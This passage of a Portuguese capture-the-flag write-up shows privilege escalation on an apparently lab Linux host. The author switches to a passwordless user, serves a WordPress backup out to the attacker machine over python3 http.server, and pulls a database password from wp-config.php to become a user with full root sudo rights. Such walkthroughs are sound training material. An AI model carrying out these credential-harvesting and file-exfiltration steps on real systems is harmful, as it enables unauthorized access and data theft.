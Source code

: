 ```bash
think@ip-10-10-151-222:/home/gege$ ls -la
total 31532
drwxr-x--- 2 gege internal     4096 Aug 18  2023 .
drwxr-xr-x 8 root root         4096 Oct 18 13:06 ..
lrwxrwxrwx 1 root root            9 Aug 18  2023 .bash_history -> /dev/null
-rw-r--r-- 1 gege gege          220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 gege gege         3771 Feb 25  2020 .bashrc
-rw-r--r-- 1 gege gege          807 Feb 25  2020 .profile
lrwxrwxrwx 1 root root            9 Aug 18  2023 .viminfo -> /dev/null
-rwxr-x--- 1 root gege     32266546 Aug 16  2023 wordpress.old.zip
think@ip-10-10-151-222:/home/gege$
```

Decidi tentar autenticar como gege para transferir o zip para a minha máquina.

```bash
think@ip-10-10-151-222:/home/gege$ su gege
gege@ip-10-10-151-222:~$
```

Acredito que gege não possuía senha (campo em branco em /etc/shadow).

Em seguida, transferi o backup para a minha máquina

```bash
gege@ip-10-10-151-222:~$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.23.176.32 - - [18/Oct/2025 15:48:44] "GET /wordpress.old.zip HTTP/1.1" 200 -
^C
Keyboard interrupt received, exiting.
gege@ip-10-10-151-222:~$
```

Agora, já posso descompactar o arquivo zip e, para senha, usei a senha encontrada do usuário gege anteriormente.

No wp-config.php do backup do wordpress, encontrei credenciais que aparentam ser do xavi.

```bash
/** Database username */
define( 'DB_USER', 'xavi' );

/** Database password */
define( 'DB_PASSWORD', 'P@ssw0rdxavi@' );

```

Sendo assim, vou tentar alternar para o usuário xavi utilizando essa senha.

```bash
gege@ip-10-10-151-222:~$ su xavi
Password: 
xavi@ip-10-10-151-222:/home/gege$ 

```

E após verificação pude concluir que o usuário pode executar qualquer comando como root
